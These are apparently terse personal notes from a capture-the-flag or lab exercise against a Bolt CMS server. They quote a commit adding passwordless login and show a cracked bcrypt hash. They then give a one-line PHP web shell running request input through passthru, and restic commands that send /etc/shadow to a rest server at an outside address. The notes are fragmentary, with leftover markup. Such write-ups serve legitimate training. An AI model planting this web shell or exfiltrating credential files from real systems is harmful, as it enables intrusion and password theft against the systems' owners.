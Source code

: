 ```
```

* Found this commit   
```
commit 42af4fd3a178de245cf11aced78d7354fde2e246
Author: ToBe998 <tobe@topolis.de>
Date:   Wed Sep 12 22:17:25 2018 +0200

    Added method to login as specific user without password (#7664)
    
    * Added method to login as specific user without pasword
    
    As discussed on Slack, the added `loinAsUser()` method enabled extension crea
tors to override the login mechanics and connect bolt to various kinds of SSO sys
tems. Since the logic for user management and authentication is currently (pre 4.
1) not centralized enough, a lot of needed code would have to be duplicated to ar
chive this. (And we certainly dont want to go there ;) )
    
    PS: The file is identical to 3.5 and could also be backported?
    
    I can provide guides on how to do this if needed.
    
    * phpdoc updated
    
    * Update Login.php
    
    * code reviews
    
    * Update Login.php
    
    * Update Login.php

```  

* I found the login page.
* Turns out the profiler is the key.

FOUND PASSWORD `$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK:strawberry`  

* Web shell  
```php
<?php 
passthru($_REQUEST['cmd']);
?>
```  

sudo restic backup -r "rest:http://10.10.14.18:1234/ABCDEFU" "/etc/shadow"
./rest-server --listen ":12345"
restic init -r "rest:http://127.0.0.1/bolt"
restic init -r "rest:http://localhost:$RPORT/$NAME"
/tmp/rest-server --listen ":5555" --no-auth
restic -r /tmp/restShit restore c0075dc5 --target /tmp/restOut
restic backup -r restShit restore c0075dc5 --target /tmp/restOut 
